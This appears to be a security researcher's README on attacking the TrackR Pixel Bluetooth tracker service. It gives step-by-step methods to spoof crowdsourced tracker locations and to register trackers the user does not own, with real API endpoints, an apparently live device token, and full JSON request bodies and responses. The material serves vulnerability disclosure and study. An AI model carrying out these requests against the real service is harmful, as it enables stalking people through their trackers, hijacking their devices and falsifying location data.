

# TrackR Pixel

## Scenarios

**What does the App:**

    Send:
        1. When it sees a registered TD 
        2. When it sees a unregistered TD
   
    Recieve:
        1. When TD is found by another CD


## Setup

1. Install ADB and set up root access on owned CD
2. Run `frida-server` as root
3. Install TrackR Android App
4. Obtain the userToken, pushNotToken etc. for the current user
5. Scan for and find device bluetooth (MAC) addresses for TDs in range

## Attacks

### Spoof location for unregistered TDs

### Goal 

    The goal of this attack is to be able to spoof locations for crowdsourced TDs. 

### Steps 

 * Everytime the app finds any device (registered/unregistered) it saves the location of that device based on CDs location to the local SQLLite DB (called tracker)
 * It will then try to sync this location to the server as either your own device, or crowdsourced location for unregistered TDs
 * You can issue a PUT request to the following url: `https://platform.thetrackr.com/rest/tracker/batch/secure/lzFobKi7iWUd1cRy05KJff4l3KCNESgsAHWDXYIl` where the last URI element is the token it uses to identify the device. 
 * This identification can be found using the script in `spoof-code/` once it calls `sendRequest()`. This remains unchanged and does not become invalidated once created and can be resused. 
 * The format of the JSON body are as below

    ```
    [
    {
        "trackerId": "0000e443-2d6e1bda",
        "battery": 60,
        "lastKnownLocation": {
            "latitude": 23.0204978,
            "longitude": 72.4396571,
            "accuracy": 3.6034746170043945
        },
        "connected": true,
        "clientTimeDiff": 22,
        "pushNotToken": ""
    },
    {
        "trackerId": "00007151-69611bf3",
        "battery": -1,
        "lastKnownLocation": {
            "latitude": 23.0204978,
            "longitude": 72.4396571,
            "accuracy": 1.6159114837646484
        },
        "connected": false,
        "clientTimeDiff": 82214,
        "pushNotToken": ""
    },
    {
        "trackerId": "000092c1-3d0d1eef",
        "battery": 75,
        "lastKnownLocation": {
            "latitude": 23.0204978,
            "longitude": 72.4396571,
            "accuracy": 3.603474
        },
        "connected": true,
        "clientTimeDiff": 19,
        "pushNotToken": ""
    }
    ]
    ```

    `pushNotToken` is optional here as it does not cause the request to fail and updates the location regardless. 

* It will return the updated TD Ids as response.
  Example:
  ```
  [
    "0000e443-2d6e1bda",
    "00007151-69611bf3",
    "000092c1-3d0d1eef"
  ]
  ```
    


### Register a unowned TD

#### Goal

* The goal here is to own a trackr device and be able to see it's location without physically interacting with the device. 
  
* This essentialy would give you control and information over devices that someone else owns. 

#### Steps

* Using the bluetooth scanner such as <>, you can find out all the addresses of nearby trackr devices. However, if you already know the device ID this step is unnecessary.
  
* When you register your account/sign in to an account, using the spoof-code script you can find out the user token for your account. This is generated server-side and regenerated each time when a user logs in. It is **not** immediately invalidated on logout. However, it is not clear if it is invalidated after a time period.
  
* The POST request URL of the registation request is `https://platform.thetrackr.com/rest/item?usertoken=<>`
  
* The JSON body structure is:
    ```
    {"customName":"testname","type":"Bluetooth","trackerId":"000092c1-3d0d1eef","icon":"trackr","timeElapsedSync":49}
    ```
* The `customName, timeElapsedSync` can be changed to any value. 
  
* Once the server recieves the request it sends one of the two responses:
  * 200 OK: Updates the server-side table with registration details if the device was previously registered (valid device ID)
    
  * 201 OK: Creates a new entry for the device in the server-side table
    

* The response contains the TD Id that was provided


### Observations

* Spaces in the TD Ids cause a 500 server error
* Can provide any non-space character string for TD Id and server inserts it to the table
* Once the device is registered but not paired, you can communicate with the actual device as if it was paired if in range